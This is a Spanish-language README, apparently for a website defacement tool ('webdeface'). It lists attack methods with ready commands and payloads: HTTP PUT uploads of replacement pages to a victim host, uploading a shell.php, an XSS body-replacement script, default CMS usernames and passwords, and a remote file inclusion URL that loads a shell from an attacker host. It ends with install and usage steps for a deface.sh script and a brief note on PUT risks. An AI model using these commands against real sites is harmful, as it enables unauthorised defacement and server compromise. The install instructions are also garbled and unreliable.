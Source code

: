 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

## 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

## 2.-Metodo SQLi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

## 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

## 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

## 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles

Usuarios: admin, wordpress, drupal, jomla, manager, administrator .. ,-  Claves: admin, joomla, drupal, wordpress, 123456, password

## 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php

#

## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.


http://www.hackingyseguridad.com/secure/index2.htm

